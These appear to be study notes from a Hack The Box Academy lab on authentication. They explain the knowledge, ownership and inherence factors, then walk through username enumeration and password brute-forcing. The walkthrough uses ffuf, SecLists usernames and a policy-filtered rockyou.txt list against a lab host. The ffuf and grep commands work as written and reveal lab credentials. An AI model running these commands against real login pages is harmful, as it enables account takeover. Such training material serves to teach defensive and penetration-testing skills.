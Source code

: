 ![[Pasted image 20250507111907.png]]

#### Knowledge

Authentication based on knowledge factors relies on something that the user knows to prove their identity. The user provides information such as passwords, passphrases, PINs, or answers to security questions.

#### Ownership

Authentication based on ownership factors relies on something the user possesses. The user proves their identity by proving the ownership of a physical object or device, such as ID cards, security tokens, or smartphones with authentication apps. 

#### Inherence

Lastly, authentication based on inherence factors relies on something the user is or does. This includes biometric factors such as fingerprints, facial patterns, and voice recognition, or signatures. Biometric authentication is highly effective since biometric traits are inherently tied to an individual user.

| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

## Enumerating Users
When we attempt to log in to the lab with an invalid username such as `abc`, we can see the following error message:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_1.png)

On the other hand, when we attempt to log in with a registered user such as `htb-stdnt` and an invalid password, we can see a different error:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_2.png)

Let us exploit this difference in error messages returned and use SecLists's wordlist `xato-net-10-million-usernames.txt` to enumerate valid users with `ffuf`. We can specify the wordlist with the `-w` parameter, the POST data with the `-d` parameter, and the keyword `FUZZ` in the username to fuzz valid users. Finally, we can filter out invalid users by removing responses containing the string `Unknown user`:

```shell-session
ShibuShivansh@htb[/htb]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"

<SNIP>

[Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 310ms]
    * FUZZ: consuelo
```


## Brute-forcing Passwords
**Counting Number of Lines in Wordlists :**
```shell-session
ShibuShivansh@htb[/htb]$ wc -l /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

14344391 /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

**Matching Passwords according to the Password Policy:**
```shell-session
ShibuShivansh@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

ShibuShivansh@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```


Upon providing an incorrect username, the login response contains the message (substring) "Invalid username", therefore, we can use this information to build our `ffuf` command to brute-force the user's password:

```shell-session
ShibuShivansh@htb[/htb]$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
```


